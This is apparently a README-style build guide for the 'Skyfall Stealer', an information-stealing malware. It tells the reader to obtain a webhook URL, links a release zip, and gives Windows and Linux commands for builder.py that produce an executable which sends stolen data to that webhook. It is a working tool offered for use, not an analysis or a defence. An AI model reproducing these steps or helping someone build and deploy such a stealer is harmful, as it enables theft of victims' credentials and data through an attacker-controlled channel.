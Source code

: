 # Build Guide for the Skyfall Stealer
## Run the builder.py Script

To build a Skyfall Stealer you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

[![image](https://i.ibb.co/56LJStc/stealer.png)](https://github.com/Tangoxfreq/skyfall-stealer/releases/download/v1.8.2/skyfall-stealer.zip)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your file in the **dist** directory.

## Execute built Skyfall Stealer











